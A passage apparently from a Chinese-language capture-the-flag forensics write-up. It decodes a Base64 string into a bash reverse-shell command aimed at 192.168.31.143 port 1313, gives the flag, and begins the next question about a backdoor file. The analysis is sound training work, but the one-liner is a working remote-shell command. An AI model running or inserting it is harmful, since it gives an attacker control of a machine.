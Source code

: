 ![img](img/image_20241030-013059.png)

对其中 Base64 编码部分进行解码

```plaintest
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMzEuMTQzLzEzMTMgMD4mMQ==
/bin/bash -i >& /dev/tcp/192.168.31.143/1313 0>&1
```

典型的 Bash 反弹 shell 的指令

```flag
flag{192.168.31.143:1313}
```

## 11

> 黑客通过什么文件留下了后门？

继续跟进，可以找到服务端反连攻击者监听器的流量
